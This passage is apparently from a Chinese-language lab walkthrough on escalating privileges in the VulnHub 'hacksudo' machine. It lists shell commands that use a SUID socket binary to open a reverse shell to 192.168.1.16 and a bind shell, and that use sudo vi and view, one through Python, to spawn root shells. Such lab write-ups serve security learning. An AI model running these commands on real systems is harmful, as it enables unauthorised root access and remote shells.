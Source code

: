 ![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\61.jpg)



## socket提权

基本上这个具有SUID命令，表示可以正向或反向连接，主要的就是反向连接

###### 反向连接

```shell
RHOST=192.168.1.16
RPORT=1234
socket -qvp '/bin/sh -i' $RHOST $RPORT
```

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\62.jpg)

###### 正向连接

```shell
LPORT=1234
socket -svp '/bin/sh -i' $LPORT
```

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\63.jpg)

## vi提权

```shell
sudo vi -c ':!/bin/sh' /dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\64.jpg)

## view提权

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\65.jpg)

三种方式，不过有条件

###### 方式一

```shell
sudo view -c ':!/bin/sh'
```

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\66.jpg)

###### 方式二

`python`方式

```shell
sudo view -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
